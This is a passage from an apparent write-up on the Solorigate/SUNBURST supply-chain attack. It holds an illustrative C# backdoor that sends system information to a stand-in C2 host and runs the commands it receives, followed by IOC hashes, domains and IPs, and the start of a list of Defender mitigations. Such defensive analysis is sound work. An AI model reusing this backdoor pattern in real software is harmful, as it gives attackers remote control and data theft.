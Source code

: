 		    // Execute received commands
		    ExecuteCommands(response);
		  }
		
		  private string GetSystemInformation() {
		    // Gather information about the system
		    return $"{Environment.MachineName}-{Environment.OSVersion}";
		  }
		
		  private string ContactC2Server(string data) {
		    using (var client = new WebClient()) {
		      // Send data to C2 server and get response
		      return client.UploadString("http://malicious-domain.com/api", data);
		    }
		  }
		
		  private void ExecuteCommands(string commands) {
		    // Execute commands received from the C2 server
		    foreach (var command in commands.Split(';')) {
		      Process.Start(command);
		    }
		  }
		}



**3.Indicators of Compromise (IOCs):**

Here are additional known IOCs associated with the Solorigate attack:
	•	Hashes of Malicious DLL: 
 
	MD5: b91ce2fa41029f6955bff20079468448
	SHA-1: 32519c74a60d54aa0f34a8379594a2d96b09a8f9
	SHA-256: 32538427fdf7b2b9b77ae3357c7075215efb68ccf7b5c5bc2a9fa737c58e271c

•	Malicious Domains: 

	avsvmcloud.com
	digitalcollege.org
	freescanonline.com
	deftsecurity.com
	thedoccloud.com
	virtualdataserver.com

•	IP Addresses: 
	
	65.154.226.68
	199.201.123.186
	204.188.205.29

**Microsoft Defender’s Role in Mitigating the Threat**

1.	Behavioral Monitoring: Microsoft Defender uses advanced behavioral analysis to detect anomalies such as delayed execution and unusual system behavior associated with SUNBURST.

2.	Threat Intelligence Integration: Defender leverages extensive threat intelligence to recognize and block malicious indicators linked to Solorigate.
3.	Automated Investigation and Remediation:
